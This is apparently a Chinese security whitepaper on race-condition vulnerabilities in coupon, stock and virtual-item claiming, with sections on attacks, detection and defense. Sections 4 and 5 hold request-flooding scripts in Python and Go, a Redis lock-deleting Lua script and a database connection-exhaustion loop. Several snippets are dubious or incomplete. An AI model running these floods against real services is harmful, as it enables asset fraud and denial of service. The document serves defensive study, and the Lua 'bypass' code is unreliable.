

# 虚拟资产并发领取安全研究白皮书

## 1. 定义与核心概念
### 1.1 基本定义
虚拟资产并发领取漏洞（Concurrent Asset Claim Vulnerability）是指由于系统对资源分配操作的并发控制缺失，攻击者通过高并发请求在特定时间窗口内多次获取本应受限的虚拟资产的安全漏洞。常见于数字货币交易、游戏道具领取、优惠券发放等业务场景。

### 1.2 关键特征
- 资源竞争：多个请求同时操作共享资源
- 非原子操作：业务处理流程存在可分割的中间状态
- 验证缺失：缺乏有效的并发控制机制
- 边际失效：在高并发场景下触发异常业务逻辑

## 2. 漏洞原理分析
### 2.1 资源分配模型

典型竞态条件漏洞流程，在查询库存和实际扣减之间存在时间窗口

### 2.2 并发失效原理
当N个并发请求同时通过库存检查时：
- 各请求获取相同的初始库存值
- 执行库存扣减时未作原子更新
- 实际扣减次数可能远大于允许值
- 最终库存可能变为负数或出现超发

## 3. 漏洞分类体系
### 3.1 基于攻击对象
#### 3.1.1 库存型并发
- 电商秒杀库存超发
- 虚拟道具限量领取
- 票务系统座位抢占

#### 3.1.2 资格型并发
- 首单优惠重复领取
- 新手礼包多账号获取
- 实名认证奖励滥用

### 3.2 基于技术实现
#### 3.2.1 数据库层并发
```sql
-- 不安全实现示例
BEGIN TRANSACTION;
SELECT stock FROM products WHERE id=1;
-- 在此处存在时间窗口
UPDATE products SET stock = stock -1 WHERE id=1;
COMMIT;
```

#### 3.2.2 应用层并发
```python
# 伪代码示例
def claim_coupon(user_id):
    coupon = db.query(Coupon).filter(stock > 0).first()
    if coupon:
        coupon.stock -= 1
        db.commit()
        assign_to_user(user_id)
```

## 4. 技术实现细节
### 4.1 典型攻击向量
#### 4.1.1 HTTP请求风暴
```python
import threading
import requests

def attack():
    while True:
        requests.post('https://target.com/claim', cookies=session_cookie)

for _ in range(100):
    threading.Thread(target=attack).start()
```

#### 4.1.2 Websocket连接池
通过维持大量长连接制造并发环境

#### 4.1.3 分布式节点攻击
```go
func main() {
    var wg sync.WaitGroup
    for i := 0; i < 1000; i++ {
        wg.Add(1)
        go func() {
            defer wg.Done()
            sendRequest()
        }()
    }
    wg.Wait()
}
```

### 4.2 漏洞检测方法
#### 4.2.1 时序分析检测
```bash
# 使用tshark分析请求时序
tshark -r attack.pcap -T fields -e frame.time_delta \
-e ip.src -e http.request.uri | grep "/claim"
```

#### 4.2.2 压力测试验证
```javascript
// Artillery压测脚本
config:
  target: "https://api.example.com"
  phases:
    - duration: 10
      arrivalRate: 100
scenarios:
  - flow:
      - post:
          url: "/v1/assets/claim"
          json:
            userId: "attacker_123"
```

## 5. 高级攻击技术
### 5.1 时间窗口精准打击
通过测量网络延迟确定最佳并发间隔：
```python
import time
from statistics import stdev

latencies = []
for _ in range(100):
    start = time.time()
    requests.get(target_url)
    latencies.append(time.time() - start)

optimal_delay = max(0.001, stdev(latencies) * 3)
```

### 5.2 分布式锁绕过
针对Redis分布式锁的破解：
```lua
-- 恶意解锁脚本
if redis.call("get", KEYS[1]) == ARGV[1] then
    return redis.call("del", KEYS[1])
else
    for i=1,1000000 do
        redis.call('del', KEYS[1])
    end
    return 1
end
```

### 5.3 数据库连接池耗尽
通过占满连接池制造后续请求的并发假象：
```java
// JDBC连接占位攻击
public class ConnectionFlooder {
    public static void main(String[] args) throws SQLException {
        List<Connection> connections = new ArrayList<>();
        while(true) {
            connections.add(DriverManager.getConnection(DB_URL));
        }
    }
}
```

## 6. 防御方案设计
### 6.1 架构层防护
#### 6.1.1 原子操作实现
```sql
-- 安全更新语句
UPDATE coupons SET stock = stock -1 
WHERE id = 1 AND stock > 0
RETURNING stock;
```

#### 6.1.2 分布式锁优化
```python
# Redis红锁实现
from redis import Redis
from redis_lock import RedLock

def claim_asset(user_id):
    lock = RedLock("asset_lock", [Redis(host='redis1'), Redis(host='redis2')])
    if lock.acquire(blocking_timeout=100):
        try:
            # 业务逻辑
        finally:
            lock.release()
```

### 6.2 代码层防护
#### 6.2.1 幂等性设计
```java
// 幂等令牌实现
public class IdempotencyService {
    private Cache<String, Boolean> tokenCache = CacheBuilder.newBuilder()
        .expireAfterWrite(5, TimeUnit.MINUTES)
        .build();

    public boolean processRequest(String idempotencyKey) {
        if (tokenCache.getIfPresent(idempotencyKey) != null) {
            return false;
        }
        tokenCache.put(idempotencyKey, true);
        // 执行业务逻辑
        return true;
    }
}
```

#### 6.2.2 限流熔断机制
```go
// 令牌桶限流实现
func NewLimiter(r rate.Limit, b int) *Limiter {
    return &Limiter{
        limit: r,
        burst: b,
        mu:    sync.Mutex{},
        tokens: float64(b),
        last:   time.Now(),
    }
}
```

### 6.3 监控与应急
#### 6.3.1 异常模式识别
```sql
-- 异常领取行为检测
SELECT user_id, COUNT(*) AS claim_count 
FROM asset_logs 
WHERE claim_time > NOW() - INTERVAL '1 minute'
GROUP BY user_id 
HAVING COUNT(*) > 5;
```

#### 6.3.2 实时阻断系统
```python
# 基于流式处理的实时检测
from pyflink.datastream import StreamExecutionEnvironment

env = StreamExecutionEnvironment.get_execution_environment()
claims_stream = env.add_source(KafkaSource(...))

claims_stream.key_by(lambda x: x['user_id']) \
    .window(TumblingProcessingTimeWindows.of(Time.seconds(60))) \
    .trigger(CountTrigger.of(10)) \
    .process(BlockUserFunction())
```

## 7. 最佳实践建议
1. **事务设计准则**
   - 遵循ACID原则设计关键业务逻辑
   - 使用SELECT FOR UPDATE进行悲观锁控制
   - 设置合理的事务隔离级别（至少Repeatable Read）

2. **并发控制策略**
   - 实施请求签名和时序验证
   - 对高频操作进行请求指纹去重
   - 在前端实施人机验证（CAPTCHA）

3. **系统弹性设计**
   - 采用熔断模式保护后端服务
   - 实施分级库存策略（缓存库存与实际库存分离）
   - 建立资产发放的异步审核机制

4. **安全验证机制**
   - 实施双Token验证（CSRF Token + Timestamp Token）
   - 对领取操作进行设备指纹绑定
   - 建立用户行为基线模型

## 8. 总结与展望
虚拟资产并发领取漏洞作为Web安全领域的典型资源竞争问题，其防御需要贯穿系统架构、代码实现、运维监控的全生命周期。随着分布式系统的普及和微服务架构的演进，新型的并发攻击模式（如跨服务资源竞争、事件驱动型并发）正在不断涌现。建议安全团队：

1. 建立持续性的并发测试体系
2. 采用形式化验证方法验证关键业务逻辑
3. 探索基于硬件的可信执行环境（TEE）解决方案
4. 研究区块链技术在资产发放溯源中的应用

未来的防御体系需要结合边缘计算、智能流量分析、自适应熔断等新技术，构建多层次的防御矩阵，以应对日益复杂的并发攻击挑战。

---

*文档生成时间: 2025-03-12 20:16:02*
